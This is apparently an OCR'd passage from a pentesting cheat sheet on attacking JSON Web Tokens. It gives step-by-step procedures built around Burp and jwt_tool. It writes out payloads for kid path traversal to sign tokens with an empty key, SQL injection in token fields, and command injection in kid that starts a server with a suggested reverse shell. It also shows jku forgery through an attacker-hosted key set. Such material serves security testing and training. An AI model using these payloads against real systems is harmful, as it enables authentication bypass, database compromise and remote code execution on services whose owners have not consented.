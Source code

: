 6. **Attacks using kid in JWT token.**

```python
Use arbitrary files to verify
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. If there is kid in header section of JWT_token then forge a new JWT token using jwt_tool
		'python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""' 
* Alternatively, we may utilise the content of any file in the web root, such as CSS or JS, to validate the Signature.
		'python3 jwt_tool.py -I -hc kid -hv "path/of/the/file" -S hs256 -p "Content of the file"'
4. Manipulate payload section and now use the generated token in request.
5. Done, Forward the Request. 

SQL injection
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Switch to JSON Web Token Plugin tab and manipulate kid with sqli payload.
4. You can try SQLi not only in kid but in any field of payload section.
		"python3 jwt_tool.py <JWT> -I -pc name -pv "admin' ORDER BY 1--" -S hs256 -k public.pem"
5. Done, Forward the request and escalate sqli further.

Command injection
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Switch to JSON Web Token Plugin tab and manipulate kid with os commands payload.
	"kid: key.crt; whoami && python -m SimpleHTTPServer 1337 &"
4. Now use the forged JWt token in request
5. Check if you can connect to the server on port 1337 or instead use reverse shell in payload and check if you get connection back
6. DOne

```

7. ****Forged Header Parameter****

```python
JSON Set URL (jku)
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token.
3. Decode the JWT token and check if it contents jku attribute in Header section
4. Generate you Public and Private Key pair using below commands:
		"openssl genrsa -out keypair.pem 2048"
		"openssl rsa -in keypair.pem -pubout -out publickey.crt"
		"openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key"
	8 it will generate Public Key - "publickey.crt" & Private Key - "pkcs8.key"
5. Use Jwt.io and paste the public key (publicKey.pem) and the private key (attacker.key) in their respective places in the "Decoded" section.
6. Host the generated certificate locally and modify the jku header parameter accordingly.
7. Retrieve the jwks.json file from the URL present in the jku header claim
		"wget http://example.com:8000/jwks.json"
8. Make a Python script "getPublicParams.py":
		from Crypto.PublicKey import RSA

		fp = open("publickey.crt", "r")
		key = RSA.importKey(fp.read())
		fp.close()

		print "n:", hex(key.n)
		print "e:", hex(key.e)
9. Run python script "python getPublicParams.py"
10. Update the values of n and e in local jkws.json
11. Hosting the JWK Set JSON file using repl.it or any server
12. Manipulate the payload section and copy the generated jwt token from jwt.io
13. Done, change the JWT token in our request and Forward!
```